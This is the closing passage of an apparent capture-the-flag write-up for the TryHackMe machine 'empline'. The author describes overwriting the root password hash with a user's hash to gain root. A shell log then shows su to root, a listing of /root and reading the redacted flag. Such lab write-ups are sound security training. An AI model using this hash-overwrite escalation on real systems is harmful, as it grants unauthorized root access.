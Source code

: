 And there we go. I use *nano* to change the root password hash to the same as the one for george, and:

{% highlight shell %}
george@empline:/tmp$ su root
Password: 
root@empline:/tmp# id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
empline
Fri Sep 17 23:17:00 UTC 2021
root@empline:/tmp# cd /root
root@empline:~# ls -lash
total 36K
4.0K drwx------  4 root root 4.0K Jul 20 19:52 .
4.0K drwxr-xr-x 24 root root 4.0K Sep 17 22:22 ..
4.0K -rw-------  1 root root    5 Jul 20 19:52 .bash_history
4.0K -rw-r--r--  1 root root 3.1K Apr  9  2018 .bashrc
4.0K drwxr-xr-x  3 root root 4.0K Jul 20 19:49 .local
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K drwx------  2 root root 4.0K Jul 20 19:45 .ssh
4.0K -rw-r--r--  1 root root  227 Jul 20 19:48 .wget-hsts
4.0K -rw-r--r--  1 root root   33 Jul 20 19:48 root.txt
root@empline:~# cat root.txt
FLAG_GOES_HERE
{% endhighlight %}

All done, thanks [zyeinn](https://tryhackme.com/p/zyeinn).
